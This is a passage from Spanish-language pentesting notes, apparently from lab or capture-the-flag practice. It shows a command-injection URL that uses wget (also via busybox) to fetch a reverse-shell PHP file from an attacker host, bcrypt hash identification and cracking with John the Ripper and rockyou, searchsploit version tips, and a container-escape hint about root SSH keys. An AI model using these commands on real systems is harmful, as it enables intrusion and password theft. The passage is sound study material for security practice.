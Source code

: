 http://twitx.nyx/private.php?folder=upload&file=9551640368051400adf634.83527497.png&cmd=wget http://192.168.42.133/rev.php

con busybox

http://twitx.nyx/private.php?folder=upload&file=9551640368051400adf634.83527497.png&cmd=busybox wget http://192.168.42.133/rev.php

-------------------------------------------------------------------------------

## 86.- Desencriptar bcrypt

echo "hash-bcrypt" > hash.txt

echo "$2y$10$OZh9Cqq7PupktlS/LbtJu.c4bFXWUaTW3zAbmS1litThpCfMAurtm" > hash.txt

hashid hash.txt

resultado:

--File 'hash.txt'--
Analyzing '$2y$10$OZh9Cqq7PupktlS/LbtJu.c4bFXWUaTW3zAbmS1litThpCfMAurtm'
[+] Blowfish(OpenBSD) 
[+] Woltlab Burning Board 4.x 
[+] bcrypt 
--End of file 'hash.txt'-- 


cracking Johntheripper

john --wordlist=/usr/share/wordlists/rockyou.txt --forma=bcrypt hash.txt

-------------------------------------------------------------------------------

## 87.- Siempre que tengamos la versión de un software, CMS hay que buscar por versiones altas también

Ejemplo

Tengo el CMS Joomla 4.2.7 pero también puedo buscar por Joomla 4.2.

searchsploit Joomla 4.2.7

o 

searchsploit Joomla 4.2.

y probar con cuál me funciona


-------------------------------------------------------------------------------

## 88.- Si no podemos ejecutar comando como ifconfig o ip a, es porque estmos dentro de un contenedor.

tenemos que ser root y ver algún id_rsa o algo para conectarme por ahí

estando en contenedor no me permite ver archivos dentro de carpetas dentro de usuarios del sistema incluso siendo root.
